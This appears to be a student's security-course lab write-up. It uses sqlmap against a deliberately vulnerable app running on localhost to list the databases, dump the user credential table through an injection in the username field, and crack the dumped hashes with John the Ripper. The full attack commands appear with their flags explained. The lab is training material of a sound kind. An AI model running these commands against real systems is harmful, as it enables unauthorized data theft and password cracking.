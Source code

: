 # Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 

Run docker container from SQLi:
```sh
docker compose up -d
```

![](./images_2/Screenshot_1.png)

Website running on port 3128.

![](./images_2/Screenshot_2.png)

- Install sqlmap.
To get into the Linux command line of the Docker container and install sqlmap, you can follow these steps:

1. First, identify the container name or ID. From the Docker Compose file, we can see that the web container is named `www-10.9.0.5`. You can verify this by running:

```bash
docker ps
```
![](./images_2/Screenshot_3.png)

2. To enter the container's command line, use:

```bash
docker exec -it www-10.9.0.5 /bin/bash
```

3. Once inside the container, you'll need to update the package lists and install sqlmap. However, the container might be running a minimal image that doesn't include package managers. If that's the case, you'll need to install them first. Here are the steps:

```bash
# Update package lists
apt-get update

# Install Python and pip (if not already installed)
apt-get install -y python3 python3-pip

# Install sqlmap using pip
pip3 install sqlmap
```

Another way to install sqlmap in terminal:
```sh
pip install sqlmap
```

4. After installation, you can verify sqlmap is installed by running:

```bash
sqlmap --version
```

![](./images_2/Screenshot_4.png)

- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128" --level=3 --dbs
```

![](./images_2/Screenshot_6.png)

Detect database is MySQL.
![](./images_2/Screenshot_8.png)

Detect 79 tables.
![](./images_2/Screenshot_9.png)

Detailed explanation:
- `py sqlmap.py`: This runs the sqlmap Python script.
- `-u "http://localhost:3128"`: Specifies the target URL to test for SQL injection vulnerabilities.
- `--level=3`: Sets the level of tests to perform. Level 3 is more thorough than the default and includes more payload tests.
- `--dbs`: Instructs sqlmap to enumerate and retrieve the names of all available databases on the target system.

This command attempts to exploit SQL injection vulnerabilities in the target URL to discover all databases accessible to the application. The higher level (3) increases the chances of finding vulnerabilities but may also increase the time taken and the load on the target server.

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password=" --level=5 --risk=3 --tables --users --dump
```

![](./images_2/Screenshot_7.png)

Detailed explanation:
- `-u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password="`: Specifies the target URL, including a potential injection point in the username parameter.
- `--level=5`: Sets the highest level of tests, which includes all possible injection techniques and locations.
- `--risk=3`: Sets the highest risk level, allowing sqlmap to use potentially dangerous payloads that might affect database integrity.
- `--tables`: Instructs sqlmap to enumerate all tables in the discovered databases.
- `--users`: Tells sqlmap to retrieve information about database users.
- `--dump`: Attempts to dump the contents of all discovered tables.

This comprehensive command attempts to exploit the SQL injection vulnerability to extract as much information as possible, including table structures, user details, and table contents. The high level and risk settings make this a very aggressive scan, which could potentially cause issues with the target database if not used carefully.

![](./images_2/Screenshot_11.png)

Database users tables store in `C:\AnhTuDev\Uni\IS\lab-is\submission\lab_1_02FIE\task_2\code\sqlmap-dev\data\txt\common-columns.txt`

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password=" --dump -D sqllab_users -T credential --batch --output-dir=./sqlmap_output
```

Check output in `sqlmap_output` folder.

![](./images_2/Screenshot_12.png)


Check table `credential` in `sqllab_users` database.

![](./images_2/Screenshot_13.png)

You can see the password of all database users in `sqlmap_output` folder or `credential` table.

Detailed explanation:
- `-u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password="`: Specifies the target URL with a potential injection point.
- `--dump`: Instructs sqlmap to retrieve and output the contents of the specified table.
- `-D sqllab_users`: Specifies the target database name.
- `-T credential`: Specifies the target table name within the database.
- `--batch`: Runs sqlmap in non-interactive mode, automatically choosing default actions without user input.
- `--output-dir=./sqlmap_output`: Directs sqlmap to save all output files in the specified directory.

This command focuses on extracting the contents of the 'credential' table from the 'sqllab_users' database, which likely contains user login information. The `--batch` option automates the process, and the output is saved to a specific directory for easy access.

While the question mentions John the Ripper, the sqlmap command doesn't directly use it. To use John the Ripper with the extracted passwords:

1. Extract the password hashes from the sqlmap output.
2. Save these hashes in a file (e.g., `hashes.txt`).
3. Run John the Ripper on this file:

```bash
john hashes.txt
```

John the Ripper will attempt to crack the password hashes using various techniques and wordlists. The cracked passwords can then be viewed using:

```bash
john --show hashes.txt
```

This process allows you to potentially reveal the plaintext passwords of database users, demonstrating the importance of using strong, unique passwords and properly securing sensitive information.

**Conclusion**:

- Use sqlmap to get information about all available databases.
- Use sqlmap to get tables, users information.
- Make use of John the Ripper to disclose the password of all database users from the above exploit.
